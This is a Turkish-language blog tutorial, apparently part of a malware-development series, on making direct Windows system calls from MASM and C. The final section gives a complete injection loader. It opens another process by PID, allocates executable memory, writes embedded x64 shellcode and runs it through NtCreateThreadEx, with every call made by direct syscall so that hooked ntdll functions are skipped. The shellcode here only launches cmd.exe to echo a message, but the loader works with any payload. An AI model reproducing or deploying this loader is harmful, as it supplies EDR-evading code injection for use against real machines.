



Merhabalar bu yazıda **Direct System Calls** konusuna değineceğiz. 

## **System Call Nedir?**

> [!IMPORTANT]
> Okuyucunun [NTAPI Injection](https://0xbekoo.github.io/docs/malware-dev/ntapi-injection/) blogunda anlatılan NTAPI mekanizması, user-mode ve kernel-mode arasındaki temel farklar gibi konularda bilgisi olduğu varsayılmıştır.

Direkt olarak tekniğe geçmeden önce syscall nedir bunu anlamamız gerekiyor.

Bir sistem çağrısı (system call), bir programın işletim sisteminden bir hizmet talep etmesinin programatik yoludur. Daha basit olarak, kullanıcı modunda (user mode) çalışan bir programın çekirdek moduna (kernel mode) geçmesini sağlayan bir komuttur. Windows gibi işletim sistemlerinde, kullanıcı modunda çalışan bir program, bir sistem çağrısı yaparak işletim sisteminin çekirdek modunda çalışan servislerine ulaşır. Bu geçiş, CPU'nun işletim sistemi tarafından yönetilen çekirdek moduna geçmesiyle gerçekleşir.

Söz konusu Windows API olduğunda, bir user-mode program tarafından çağırılan WIN32 API'in çalıştırılması için user-mode alanından kernel-mode alana geçici geçişi (geçiş CPU anahtarı) sağlayan bir komuttur.

Kafanıza daha iyi oturması için diyagram üzerinden ilerleyelim:


**NTAPI Injection** blogumu okuduysanız bu diyagram yabancı gelmeyecektir. Fakat yine de özet geçmekte fayda var. 

Diyelim ki user-mode programdan OpenProcess API'i çağırdık. Bu API'ların orijinal adresleri kernel alanından **ntoskrnl.exe**'de tutulduğu için user-mode alanından kernel-mode'a yönlendirilmesi gerekiyor. Bu API'in ilk durağı kernel32.dll alanından OpenProcess olacaktır ve sonra user-mode alanın son durağı olan ntdll.dll kütüphanesine giderek **NtOpenProcess** haline dönüşür. Konumuzilgisi olan **SYSCALL** tam burada devreye giriyor. ntdll.dll'den sonra adımlar kernel alanından devam edeceği için kernel-mode alana yönlendirilmesi gerekiyor.

SYSCALL çalıştıktan sonra ise kernel-mode alana geçiş yapılarak SSDT tablosuna yönlendirilir **NtOpenProcess**'in orijinal adresi hesaplanır ve ntoskrnl.exe'den adrese yönlendirilir. Eğer SSDT tablosu hakkında bilgi sahibi olmak isterseniz [SSDT bloguma](https://0xbekoo.github.io/docs/winkernel-dev/wkd-ssdt/) göz atabilirsiniz.

Fakat yapılan bu syscall'lar direkt olarak belirsiz bir şekilde yapılmıyor. Hangi API'in çalıştırıldığı anlaşılması için her NTAPI için bir syscall numarası bulunur. Bu numaralar, işletim sistemi versiyonuna göre değişiklik gösterebilir ve genellikle kernel seviyesinde tanımlıdır.  Böylece program'ın hangi API'i çalıştırmak istendiği belirlenmiş olur.

Mesela Windbg ile ntdll.dll'den NtOpenProcess'in syscall numarasına göz atabiliriz:


Bir syscall yapıldığında ssn yani syscall numarası eax'a aktarılır. Fotoğrafta eax'a aktarılan değerin 0x26 olduğunu görebiliriz. 

## **Direct Systemcall Yöntemi**

Direct Systemcall yöntemi, adından da anlaşılabileceği gibi, user-mode programlardan doğrudan syscall yapmayı içeren bir tekniktir. Bu yöntem, arada herhangi bir kütüphaneye (şemadan gördüğümüz gibi kernel32.dll vs.) gitmeden, doğrudan syscall yapılır. 


Yıllar geçse de sıkılmayacağımız örnek olan NtOpenProcess'i kullanarak bir syscall örneği yapalım. Kafamıza daha iyi oturacaktır.

### **Assembly Projenin Kodlanması**

Hatırlarsanız NTAPI Injection konusunda NtOpenProcess çalıştırmak için yapısını tanımlıyorduk. Bu yöntemle beraber projede bir .asm dosyası oluşturacağız. Bunun nedeni ise yapılan syscall'lar assembly yani daha düşük seviyede yapılır. Bu yüzden direkt olarak C kodlarıyla syscall yapamayız.

Visual Studio'da oluşturduğumuz projeye sağ tıklayalım ve **Build Dependencies > Build Customizations**'a tıklayalım:


Açılan ekrandan masm kutucuğunu işaretleyelim:



Daha sonra bir .asm projesi oluşturalım ve oluşturulan projeye sağ tıklayıp **Properties** seçeneğine tıklayalım:



Properties'e tıkladıktan sonra **Excluded From Build** seçeneğini **No** olarak işaretleyelim.

Daha sonra oluşturduğumuz assembly dosyasını kodlayalım:

```asm
.code

My_NtOpenProcess proc 
	mov r10,rcx
	mov eax,26h
	syscall
	ret
My_NtOpenProcess endp
end
```

Bu kodda gördüğünüz gibi 0x26 ssn ile syscall yapıyoruz. C projemizde My_NtOpenProcess fonksiyonunu çağırdığımızda akış buraya aktarılacak.

### **C Projenin Kodlanması**

Şimdi ise main.h adında bir header dosyası oluşturalım ve aşağıdaki kodları yapıştırın:

```c
#include <stdio.h>
#include <Windows.h>
#define STATUS_SUCCESS (NTSTATUS)0x00000000L

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG           Length;
    HANDLE          RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG           Attributes;
    PVOID           SecurityDescriptor;
    PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID {
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

extern NTSTATUS My_NtOpenProcess(
    PHANDLE ProcessHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PCLIENT_ID ClientId
);
```

Artık bu yapıların ne için kullanıldığını biliyoruz. extern ile assembly projesinde oluşturduğumuz **My_NtOpenProcess**'i tanımladığımıza dikkat edin. 

Artık main.c projesini kodlayabiliriz:

```c
#include "main.h"

int main(int argc, char* argv[]) {
	if (argc < 2) {
		printf("Usage: .\\program <PID>\n");
		return 1;
	}
	DWORD PID = atoi(argv[1]);

    HANDLE HandleProcess = NULL;
    CLIENT_ID CID = { (HANDLE)PID, NULL };
    OBJECT_ATTRIBUTES ObjAttr = { sizeof(ObjAttr),  NULL };

	NTSTATUS Status = My_NtOpenProcess(&HandleProcess, PROCESS_ALL_ACCESS, &ObjAttr, &CID);
	if (Status != STATUS_SUCCESS) {
		printf("NtOpenProcess failed with status: 0x%08x\n", Status);
		return -1;
	}
	printf("HandleProcess: 0x%p\n", HandleProcess);

    return 0;
}
```

NTAPI Injection konusundan sonra kodlar artık bize yabancı gelmeyecektir. Programı çalıştıralım ve sonuçlara göz atalım:


Göründüğü gibi başarılı bir şekilde NtOpenProcess çalışıyor. Yine de arka planda neler olduğunu daha yakından görmek için Windbg kullanabiliriz:



main fonksiyondan My_NtOpenProcess'i çağırdığımız kısma bir bp koyalım ve adım adım neler yaptığına bir göz atalım:


Göründüğü gibi Assembly projesinde oluşturduğumuz fonksiyona yöneliyor ve artık bu kısımdan sonra akış kernel'a yönelecek. 

Yaptığımız adımın diyagramını oluşturabiliriz böylece daha iyi anlayabiliriz:


## **Direct Systemcall ile Shellcode Çalıştırma**

Öncelikle oluşturduğumuz Assembly projesini aşağıdaki kod ile güncelleyelim:

```asm
.data 
extern NtOpenProcessSSN:DWORD
extern NtAllocateVirtualMemorySSN:DWORD
extern NtWriteVirtualMemorySSN:DWORD
extern NtCreateThreadExSSN:DWORD
extern NtWaitForSingleObjectSSN:DWORD
extern NtCloseSSN:DWORD

.code
My_NtOpenProcess PROC 
	mov r10, rcx
	mov eax, NtOpenProcessSSN       
	syscall                         
	ret                             
My_NtOpenProcess ENDP

My_NtAllocateVirtualMemory PROC    
	mov r10, rcx
	mov eax, NtAllocateVirtualMemorySSN      
	syscall                        
	ret                             
My_NtAllocateVirtualMemory ENDP

My_NtWriteVirtualMemory PROC 
	mov r10, rcx
	mov eax, NtWriteVirtualMemorySSN      
	syscall                        
	ret                             
My_NtWriteVirtualMemory ENDP 

My_NtCreateThreadEx PROC
    mov r10, rcx
	mov eax, NtCreateThreadExSSN      
	syscall                        
	ret                             
My_NtCreateThreadEx ENDP 

My_NtWaitForSingleObject PROC 
	mov r10, rcx
	mov eax, NtWaitForSingleObjectSSN      
	syscall                        
	ret                             
My_NtWaitForSingleObject ENDP 
END
```

Daha sonra main.h header dosyasını güncelleyelim:

```c
#include <stdio.h>
#include <Windows.h>
#define STATUS_SUCCESS (NTSTATUS)0x00000000L

DWORD NtOpenProcessSSN;
DWORD NtAllocateVirtualMemorySSN;
DWORD NtWriteVirtualMemorySSN;
DWORD NtCreateThreadExSSN;
DWORD NtWaitForSingleObjectSSN;
DWORD NtCloseSSN;

#pragma region STRUCTURES
typedef struct _PS_ATTRIBUTE
{
    ULONG  Attribute;
    SIZE_T Size;
    union
    {
        ULONG Value;
        PVOID ValuePtr;
    } u1;
    PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES
{
    ULONG           Length;
    HANDLE          RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG           Attributes;
    PVOID           SecurityDescriptor;
    PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID
{
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef struct _PS_ATTRIBUTE_LIST
{
    SIZE_T       TotalLength;
    PS_ATTRIBUTE Attributes[1];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;
#pragma endregion

extern NTSTATUS My_NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);

extern NTSTATUS My_NtAllocateVirtualMemory(
    IN HANDLE ProcessHandle,
    IN OUT PVOID* BaseAddress,
    IN ULONG ZeroBits,
    IN OUT PSIZE_T RegionSize,
    IN ULONG AllocationType,
    IN ULONG Protect
);

extern NTSTATUS My_NtWriteVirtualMemory(
    IN HANDLE ProcessHandle,
    IN PVOID BaseAddress,
    IN PVOID Buffer,
    IN SIZE_T NumberOfBytesToWrite,
    OUT PSIZE_T NumberOfBytesWritten OPTIONAL
);

extern NTSTATUS My_NtCreateThreadEx(
    OUT PHANDLE ThreadHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    IN HANDLE ProcessHandle,
    IN PVOID StartRoutine,
    IN PVOID Argument OPTIONAL,
    IN ULONG CreateFlags,
    IN SIZE_T ZeroBits,
    IN SIZE_T StackSize,
    IN SIZE_T MaximumStackSize,
    IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL
);

extern NTSTATUS My_NtWaitForSingleObject(
    _In_ HANDLE Handle,
    _In_ BOOLEAN Alertable,
    _In_opt_ PLARGE_INTEGER Timeout
);
```

Son olarak ise main.c projemizi güncelleyelim:

```c
#include "main.h"

char Shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x44\x69\x72\x65\x63\x74\x20\x53\x79\x73"
"\x74\x65\x6d\x63\x61\x6c\x6c\x73\x20\x77\x69\x74\x68\x20"
"\x62\x65\x6b\x6f\x6f\x22";

size_t ShellcodeSize = sizeof(Shellcode);

DWORD GetSSN(HMODULE ModuleName, LPCSTR ProcName) {
    printf("\n***** %s *****\n", ProcName);
    DWORD sysCallNumber = 0;
    UINT_PTR targetNtFunction;

    targetNtFunction = (UINT_PTR)GetProcAddress(ModuleName, ProcName);
    if (targetNtFunction == 0) {
        printf("%s handle retrieval failed Error Code: 0x%lx\n", ProcName, GetLastError());
        return -1;
    }

    sysCallNumber = ((PBYTE)(targetNtFunction + 0x4))[0];
    printf("SSN number for the %s successfully received! 0x%lx\n", ProcName, sysCallNumber);

    return sysCallNumber;
}

int main(int argc, char* argv[]) {
	if (argc < 2) {
		printf("Usage: .\\program <PID>\n");
		return 1;
	}
	DWORD PID = atoi(argv[1]);

    HANDLE HandleProcess = NULL;
	HANDLE HandleThread = NULL;
	PVOID RemoteBuffer = NULL;
	HMODULE NTDLLAddress = GetModuleHandleW(L"ntdll.dll");
	CLIENT_ID CID = { (HANDLE)PID, NULL };
    OBJECT_ATTRIBUTES ObjAttr = { sizeof(ObjAttr),  NULL };
	NTSTATUS Status = STATUS_SUCCESS;

	NtOpenProcessSSN = GetSSN(NTDLLAddress, "NtOpenProcess");
	Status = My_NtOpenProcess(&HandleProcess, PROCESS_ALL_ACCESS, &ObjAttr, &CID);
	if (Status != STATUS_SUCCESS) {
		printf("NtOpenProcess failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtAllocateVirtualMemorySSN = GetSSN(NTDLLAddress, "NtAllocateVirtualMemory");
	Status = My_NtAllocateVirtualMemory(HandleProcess, &RemoteBuffer, 0, &ShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (Status != STATUS_SUCCESS) {
		printf("NtAllocateVirtualMemory failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtWriteVirtualMemorySSN = GetSSN(NTDLLAddress, "NtWriteVirtualMemory");
	Status = My_NtWriteVirtualMemory(HandleProcess, RemoteBuffer, Shellcode, ShellcodeSize, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtWriteVirtualMemory failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtCreateThreadExSSN = GetSSN(NTDLLAddress, "NtCreateThreadEx");
	Status = My_NtCreateThreadEx(&HandleThread, THREAD_ALL_ACCESS, NULL, HandleProcess, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, FALSE, 0, 0, 0, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtCreateThreadEx failed! Error Code: 0x%lx\n", Status);
		return 1;
	}

	NtWaitForSingleObjectSSN = GetSSN(NTDLLAddress, "NtWaitForSingleObject");
	Status = My_NtWaitForSingleObject(HandleThread, FALSE, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtWaitForSingleObject failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleThread);
		CloseHandle(HandleProcess);
		return 1;
	}
	printf("Shellcode executed successfully\n");


	CloseHandle(HandleThread);
	CloseHandle(HandleProcess);
    return 0;
}
```

Kodların neler yaptığını bildiğimiz için anlatmama gerek yok direkt olarak sonucu görelim:

<br/>

<video controls loop>
    <source src="../../../images/posts/direct-syscalls/video.mp4" type="video/mp4">
</video>

## **Sonuç**

Bu konuda user mode programdan direkt olarak nasıl syscall yapılır bunu gördük. 

Umarım konu sizin için faydalı olmuştur. Diğer blogta görüşmek üzere.

## **References**

- [Wikipedia - System Call](https://en.wikipedia.org/wiki/System_call#:~:text=In%20computing%2C%20a%20system%20call,on%20which%20it%20is%20executed.)

- [REDOPS - Direct Syscalls: A journey from high to low](https://redops.at/en/blog/direct-syscalls-a-journey-from-high-to-low)

